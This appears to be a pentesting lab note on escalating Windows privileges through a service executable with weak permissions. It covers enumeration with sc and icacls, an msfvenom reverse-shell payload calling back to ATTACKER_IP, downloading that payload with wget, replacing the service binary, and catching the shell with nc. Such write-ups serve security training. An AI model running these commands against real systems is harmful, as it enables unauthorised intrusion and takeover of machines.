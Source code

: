 # Abusing Windows Service Misconfig

## Enumeration Windows Services

Windows services are controlled by the **Service Control Manager** (SCM). The SCM manages the status of services, checks their current status, and configures them. Each service has an executable that the SCM runs when a service starts. These executables have special functions to communicate with the SCM, so not any executable can function as a service. Additionally, each service defines the user account it runs under.

View service details for a specific service:

```powershell
sc qc WindowsScheduler

[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: windowsscheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : System Scheduler Service
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcuser1

```

The **BINARY\_PATH\_NAME** shows the executable file, while the **SERVICE\_START\_NAME** indicates the account running the service.



## Insecure Permissions on Service Executable

If the executable associated with a service has weak permissions that allow an attacker to modify or replace it, the attacker can gain the privileges of the service's account trivially.

### Check service executable file permissions

```powershell
icacls C:\PROGRA~2\SYSTEM~1\WService.exe

C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
                                  NT AUTHORITY\SYSTEM:(I)(F)
                                  BUILTIN\Administrators:(I)(F)
                                  BUILTIN\Users:(I)(RX)
                                  APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                  APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files

```

In this scenario Everyone group has modify permissions (M) on the service's executable.

Now we can overwrite the file with a RevShell created with Msfvenom

<details>

<summary>Msfconsole RevShell Scenario</summary>

<pre class="language-bash"><code class="lang-bash">msfvenom -p<a data-footnote-ref href="#user-content-fn-1"> </a>windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe

python3 -m http.server
</code></pre>

Get the payload in the target machine:

```bash
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
```

we proceed to replace the service executable with our payload.

```
C:\> cd C:\PROGRA~2\SYSTEM~1\

C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
        Successfully processed 1 files.
```

start a reverse listener on our attacker machine

```bash
nc -lvp 4445
```





</details>

Once we have replaced the payload, we can wait which the service will run, or if we have the privilege, restart the service to get the reverse shell connection:

```powershell
sc stop windowsscheduler
sc start windowsscheduler
```

{% hint style="info" %}
PowerShell has `sc` as an alias to `Set-Content`, therefore you need to use `sc.exe` in order to control services with PowerShell this way.
{% endhint %}



## Unquoted Service Paths





[^1]: 
